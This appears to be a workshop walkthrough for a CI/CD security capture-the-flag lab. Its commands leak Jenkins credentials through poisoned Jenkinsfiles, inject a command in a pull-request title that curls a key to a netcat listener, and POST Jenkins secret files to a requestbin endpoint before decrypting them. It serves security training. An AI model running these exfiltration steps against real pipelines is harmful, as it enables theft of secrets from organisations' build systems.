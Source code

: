 This Walk Thru contains commands and snippets that will be used in the workshop, and should help save time from manually typing complex commands or copying and pasting from slides which may mangle text.

### URL List

CTFd
- http://`[randomhash]`.mylabserver.com:8000
  - alice/alice

Gitea
- http://`[randomhash]`.mylabserver.com:3000
  - thealice/thealice

GitLab
- http://`[randomhash]`.mylabserver.com:4000
  - alice/alice1234

Jenkins
- http://`[randomhash]`.mylabserver.com:8080
  - alice/alice



### Slide 23
```
withCredentials([string(credentialsId 'flag1', variable: 'flag1')])
    sh '''
        echo $flag1 |base64
    '''
}
```

### Slide 24

Decode the flag 

> Replace {base64} with the base64 in the console output
```
echo "{base64}" | base64 -d
```

### Slide 27

```
docker pull ghcr.io/gitleaks/gitleaks:latest
```

```
git clone http://localhost:3000/Wonderland/duchess.git
```

```
docker run -v ./duchess/:/path ghcr.io/gitleaks/gitleaks:latest detect --source="/path" -v
```

```
cd duchess
```

```
ls -al
```

```
git log -L 8,8:.pypirc 43f216c
```

### Slide 31

Return to home from less exercise
```
cd ~
```

Get IP address of host network interface
```
ip addr show dev ens5
```

```
sudo netcat -nvlp 80
```

Go to Gitea instance

http://<server>:3000/

thealice/thealice

http://<server>:3000/Cov/reportcov

Paste this into pull request title, replace `<YOUR SERVER IP>` with the one you got from the `ip addr` command above.
```
echo ${KEY} > key && curl -v -F file=@key <YOUR SERVER IP>
```

### Slide 35

```
git clone http://localhost:3000/Wonderland/mock-turtle.git
```

Use the same creds for gitea: thealice/thealice

```
cd mock-turtle
```

```
git checkout -b branch1
```

```
nano version
```

Update the version number 

Save the file `Ctrl-O`

Exit nano `Ctrl-X`

### Slide 36

```
nano Jenkinsfile
```

Paste this into the file at the line just below `steps {`:
```
withCredentials([usernamePassword(credentialsId: 'flag10', usernameVariable: 'USERNAME', passwordVariable: 'TOKEN')]) {
    sh 'echo $TOKEN | base64'
}
```

Save the file `Ctrl-O`

Exit nano `Ctrl-X`

Next commit the file change

```
git add version Jenkinsfile
```

```
git commit -m "New version"
```

Push the changes up to the repository
```
git push --set-upstream origin branch1
```

In Gitea navigate to the mock-turtle repo, and switch to the new branch `branch1`

Create a pull request and submit it.

The pull request should get autoapproved.

Go to Jenkins and you should see an automated build kicked off for the new "version".

Look at the console output of the new build.

### Slide 41

Replace `any` with the below
```
built-in
```
>e.g. `agent {node 'built-in'}`

Add the following to the `sh """` block
```
echo $JENKINS_HOME
cat $JENKINS_HOME/credentials.xml | base64
cat $JENKINS_HOME/secrets/master.key | base64
cat $JENKINS_HOME/secrets/hudson.util.Secret | base64
ls $JENKINS_HOME
cat $JENKINS_HOME/flag5.txt
```
>Your code should look like the below:
>```
>sh """
>    virtualenv venv
>    pip install -r requirements.txt || true
>    echo $JENKINS_HOME
>    cat $JENKINS_HOME/credentials.xml | base64
>    cat $JENKINS_HOME/secrets/master.key | base64
>    cat $JENKINS_HOME/secrets/hudson.util.Secret | base64
>    ls $JENKINS_HOME
>    cat $JENKINS_HOME/flag5.txt
>"""
>```

>**Note**: Jenkins is a fork of Hudson https://en.wikipedia.org/wiki/Hudson_(software) which was originally made by Sun Microsystems as an Open Source Project, then forked when Oracle bought it and wanted to trademark/monitize Hudson. So you'll sometimes see references to it such as in one of the files above.

### Slide 42


Go to requestbin.com and create a public bin

```
stage('Install Requirements') {
  steps {
    sh """
      curl -X POST \
      -F "file1=\$(cat $JENKINS_HOME/credentials.xml | base64 -w 0 | rev)" \
      -F "file2=\$(cat $JENKINS_HOME/secrets/master.key | base64 -w 0 | rev)" \
      -F "file3=\$(cat $JENKINS_HOME/secrets/hudson.util.Secret |base64 -w 0 | rev)" \
      -F "file4=\$(cat $JENKINS_HOME/flag5.txt | base64 | rev)" \
      ENDPOINT_URL
    """
  }


}
```

### Extract the creds

For each of the files you need to decode them and write them to the a file.

```
echo "{base64}" | rev | base64 -d > credentials.xml
```

```
echo "{base64}" |rev |base64 -d > master.key
```

```
echo "{base64}" |rev base64 -d > hudson.util.Secret
```

We can use a docker image with a Jenkins credential storage decrypter from here.

```
docker run \
  --rm \
  --network none \
  --workdir / \
  --mount "type=bind,src=$PWD/master.key,dst=/master.key" \
  --mount "type=bind,src=$PWD/hudson.util.Secret,dst=/hudson.util.Secret" \
  --mount "type=bind,src=$PWD/credentials.xml,dst=/credentials.xml" \
  docker.io/hoto/jenkins-credentials-decryptor:latest \
  /jenkins-credentials-decryptor \
    -m master.key \
    -s hudson.util.Secret \
    -c credentials.xml \
    -o json
```

### Resources

[NSA/CISA Defending Continuous Integration/Continuous Delivery (CI/CD) Environments](https://media.defense.gov/2023/Jun/28/2003249466/-1/-1/0/CSI_DEFENDING_CI_ENVIRONMENTS.PDF)

[NIST Strategies for the Integration of Software Supply Chain Security in DevSecOps CI/CD pipelines](https://csrc.nist.gov/pubs/sp/800/204/d/ipd)

[OWASP Top 10 CICD Risks](https://owasp.org/www-project-top-10-ci-cd-security-risks/)

[CI/CD GOAT](https://github.com/cider-security-research/cicd-goat/#readme)

